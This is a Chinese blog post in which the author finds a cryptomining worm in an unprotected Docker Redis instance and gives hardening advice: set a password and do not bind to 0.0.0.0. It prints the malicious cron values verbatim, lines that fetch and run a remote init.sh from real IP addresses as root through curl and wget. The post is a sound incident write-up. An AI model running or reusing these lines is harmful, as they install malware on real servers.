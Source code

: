 前段时间换了台电脑，一大堆开发环境我实在是懒得在本地搞了，每次启动来启动去太麻烦了，索性直接在服务器上开 Docker 部署，`docker pull` 复制粘贴什么 Redis、什么 MySQL 分分钟装好，要用的时候直接远程连接就行了，简直不要太方便。

也不是什么业务场景让我发现了这么一个病毒，因为大部分 Redis Key 都是设置了过期时间的，开发过程也没感觉到什么问题，纯粹是有一天我闲着没事干，进入 Redis 命令行 `keys *` 看看，不看不要紧，一看好家伙，多出了几个 key，大概就是下面这样子：

```bash
uid:1
uid:2
uid:3
backup1
backup2
backup3
backup4
```

多出了 4 个 `backup` 前缀的 key，我第一反应这肯定是什么备份文件

正常情况下我根本不会在意，纯粹就是那天确实比较闲，不如来学习下 Redis 吧（哈哈），于是，禀着好学的基本素养，我分别查看了下这里面的 value 是什么：

```bash
*/2 * * * * root cd1 -fsSL http://194.87.139.103:8080/cleanfda/init.sh | sh

*/3 * * * * root wget -q -O- http://194.87.139.103:8080/cleanfda/init.sh | sh

*/4 * * * * root curl -fsSL http://45.83.123.29/cleanfda/init.sh | sh

*/5 * * * * root wd1 -q -O- http://45.83.123.29/cleanfda/init.sh | sh
```

`wget` 是用来下载东西的，`curl` 是用于执行 HTTP 请求，点开 http://45.83.123.29/cleanfda/init.sh 看看到底是什么脚本文件：

![](https://cs-wiki.oss-cn-shanghai.aliyuncs.com/image-20230525124259081.png)

又是改权限，又是关防火墙删文件的，用屁股想都知道这 IP 肯定是国外的了：

![](https://cs-wiki.oss-cn-shanghai.aliyuncs.com/image-20230525124428278.png)

查了下发现这是一种 Redis 扩散病毒，专门利用 **Redis 未授权**访问漏洞的挖矿病毒。没错，就是 Redis 没设置密码，没授权，让病毒有了可乘之机。如果服务暴露在互联网上就一定要设置密码，不要裸奔 😭，很多同学大部分时间都是在本地开发，没有设置密码的习惯或者只是简单的设置成 `root` 这种

另外，除了设置密码，服务器开放端口的时候最好也指定下 IP，不然默认的 `0.0.0.0:6379` 任何 IP 都可以访问
